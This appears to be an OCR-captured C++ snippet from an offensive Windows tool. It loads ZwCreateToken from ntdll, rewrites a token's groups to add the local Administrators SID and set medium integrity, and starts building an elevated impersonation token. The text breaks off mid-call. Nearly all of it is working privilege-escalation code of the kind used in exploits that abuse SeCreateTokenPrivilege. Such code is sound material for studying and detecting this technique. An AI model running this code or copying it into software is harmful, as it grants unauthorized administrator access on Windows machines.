 ```c++

    _ZwCreateToken ZwCreateToken;

    PISID pSid = NULL;
    SID_BUILTIN LocalAdminGroupSID = { 1, 2,{ 0, 0, 0, 0, 0, 5 },{ 32, DOMAIN_ALIAS_RID_ADMINS } };
    SID_INTEGRITY IntegrityMediumSID = { 1, 1, SECURITY_MANDATORY_LABEL_AUTHORITY, SECURITY_MANDATORY_MEDIUM_RID };

    HANDLE hThread = NULL;

    ZwCreateToken = (_ZwCreateToken)GetProcAddress(LoadLibraryA("ntdll"), "ZwCreateToken");
    if (ZwCreateToken == NULL) {
        printf("[-] Failed to load ZwCreateToken: %d\n", GetLastError());
        return NULL;
    }
    wprintf(L"[*] ZwCreateToken function loaded.\n");
    pTokenUser = (PTOKEN_USER)GetTokenInfo(hToken, TokenUser);

    strcpy_s(tokenSource.SourceName, TOKEN_SOURCE_LENGTH, "User32");
    AllocateLocallyUniqueId(&tokenSource.SourceIdentifier);

    pTokenPrivileges = (PTOKEN_PRIVILEGES)LocalAlloc(LMEM_FIXED, sizeof(TOKEN_PRIVILEGES) + (sizeof(LUID_AND_ATTRIBUTES) * 4));
    pTokenPrivileges = (PTOKEN_PRIVILEGES)GetTokenInfo(hToken, TokenPrivileges);
    SetTokenPrivileges(pTokenPrivileges);
    pTokenGroups = (PTOKEN_GROUPS)GetTokenInfo(hToken, TokenGroups);
    pTokenPrimaryGroup = (PTOKEN_PRIMARY_GROUP)GetTokenInfo(hToken, TokenPrimaryGroup);
    pTokenDefaultDacl = (PTOKEN_DEFAULT_DACL)GetTokenInfo(hToken, TokenDefaultDacl);

    for (DWORD i = 0; i < pTokenGroups->GroupCount; i++)
    {
        if (pTokenGroups->Groups[i].Attributes & SE_GROUP_INTEGRITY)
        {
            memcpy(pTokenGroups->Groups[i].Sid, &IntegrityMediumSID, sizeof(IntegrityMediumSID));
            wprintf(L"[*] Set the token integrity level to medium.\n");
        }

        pSid = (PISID)pTokenGroups->Groups[i].Sid;
        if (pSid->SubAuthority[pSid->SubAuthorityCount - 1] == DOMAIN_ALIAS_RID_USERS)
        {
            memcpy(pSid, &LocalAdminGroupSID, sizeof(LocalAdminGroupSID));
            pTokenGroups->Groups[i].Attributes = SE_GROUP_ENABLED;
            wprintf(L"[*] Add extra SID S-1-5-32-544 to token.\n");
        }
        else
        {
            pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_USE_FOR_DENY_ONLY;
            pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_ENABLED;
        }
    }

    pTokenOwner = (PTOKEN_OWNER)LocalAlloc(LPTR, sizeof(PSID));
    pTokenOwner->Owner = pTokenUser->User.Sid;

    ExpirationTime.HighPart = 0xFFFFFFFF;
    ExpirationTime.LowPart = 0xFFFFFFFF;

    Status = ZwCreateToken(
        &pElevatedToken,
        TOKEN_ALL_ACCESS,
        &objectAttributes,
        TokenImpersonation,
        &AuthenticationId,
```